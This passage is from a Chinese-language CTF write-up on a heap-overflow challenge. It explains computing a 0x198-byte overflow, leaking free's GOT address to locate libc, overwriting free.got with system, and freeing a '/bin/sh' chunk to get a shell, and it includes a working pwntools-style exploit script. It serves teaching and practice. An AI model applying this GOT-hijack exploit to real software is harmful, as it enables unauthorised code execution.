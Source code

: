 不难发现，即使有上述防护措施的限制，我们依然可以溢出到 `user1` 并覆盖其中数据。如果把 libc 中函数的 GOT 表地址放进去，然后 `display` 函数打印出来，就能泄露 libc 地址。然后进行 GOT 劫持即可 getshell。

需要注意的是，上图中 `Desc1` 前和 `&Desc1` 前都有 8 字节 chunk header，覆盖时需要考虑它们占的 16B。此外，`Desc0+user0` 原本所占的空间实际上是 `0x8+0x80+0x8+0x80`，而 `Desc3` 申请 `0x100` 字节时实际占 `0x8+0x100`，前者比后者多出空闲的 `0x8` 字节，也需要考虑。因此计算偏移 `0x100+0x8+0x8+0x80+0x8=0x198`。

放上 `0x198` 字节的 padding 后，就可以把 `free` 的 GOT 地址放在 `&Desc1` 处，此时打印出来的就是 `free` 的 GOT 地址，从而泄露出 libc。这时再利用更新功能用 `system.plt` 覆盖 `free.got`，那么执行 `free` 时就会执行 `system`。此时还差一个参数 `/bin/sh`，我们不妨放在 `Desc2` 处，那么在删除 `user2` 时，有源码：

```c
unsigned int __cdecl delete(unsigned __int8 index)
{
  unsigned int v2; // [esp+1Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  if (index < (unsigned __int8)total_users && users[index] )
  {
    free(*(void **)users[index]);
    free(users[index]);
    users[index] = 0;
  }
  return __readgsdword(0x14u) ^ v2;
}
```

这里就会执行 `free(address of /bin/sh)`，实际上就是 `system('/bin/sh')`。


```python
def add(max_len, desc_len, text):
    sla('Action:', '0')
    sla('description:', str(max_len))
    sla('name:', 'aaaa')
    sla('length:', str(desc_len))
    sla('text:', text)

def delete(index):
    sla('Action:', '1')
    sla('index:', str(index))

def display(index):
    sla('Action:', '2')
    sla('index:', str(index))

def update(index, desc_len, text):
    sla('Action:', '3')
    sla('index:', str(index))
    sla('length:', str(desc_len))
    sla('text:', text)

add(0x80,0x80,'a'*0x80)
add(0x80,0x80,'b'*0x80)
add(0x8,0x8,'/bin/sh\x00')
delete(0)

add(0x100,0x19c,'a'*0x198+p32(elf.got['free']))
display(1)
ru('tion:')
free = u32(r(4))
leak('free',free)
system,binsh = ret2libc(free,'free')

update(1,4,p32(system))
delete(2)
```